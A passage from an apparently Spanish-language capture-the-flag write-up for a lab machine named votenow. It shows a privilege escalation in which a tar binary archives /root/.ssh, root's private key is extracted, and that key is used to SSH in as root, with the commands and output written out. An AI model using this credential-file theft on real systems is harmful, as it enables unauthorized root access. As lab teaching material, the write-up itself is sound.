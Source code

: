 ```bash
[admin@votenow tmp]$ tarS -cvf pwned.tar /root/.ssh
tarS: Removing leading `/' from member names
/root/.ssh/
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
```

Extraigo el contenido de pwned.tar

```bash
[admin@votenow tmp]$ tar -xvf pwned.tar 
root/.ssh/
root/.ssh/id_rsa
root/.ssh/id_rsa.pub
root/.ssh/authorized_keys
```

Consigo obtener la clave privada del usuario root

```bash
[admin@votenow .ssh]$ pwd  
/tmp/root/.ssh
[admin@votenow .ssh]$ ls -la
total 12
drwx------ 2 admin admin   61 Jun 28  2020 .
drwxrwxr-x 3 admin admin   18 Feb  7 23:50 ..
-rw-r--r-- 1 admin admin  744 Jun 28  2020 authorized_keys
-rw------- 1 admin admin 3243 Jun 28  2020 id_rsa
-rw-r--r-- 1 admin admin  744 Jun 28  2020 id_rsa.pub
```

Utilizo ssh para migrar el usuario root utilizando autenticación por clave y escalar mis privilegios

```bash
[admin@votenow .ssh]$ ssh -i id_rsa root@127.0.0.1 -p2082
The authenticity of host '[127.0.0.1]:2082 ([127.0.0.1]:2082)' can't be established.
ECDSA key fingerprint is SHA256:Aifft9XCM1HTYRoNyus8/X9amRXYGMI80UwZGUyWs10.
ECDSA key fingerprint is MD5:e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:2082' (ECDSA) to the list of known hosts.
Last login: Sun Jun 28 00:42:56 2020 from 192.168.56.1
[root@votenow ~]# whoami
root
```
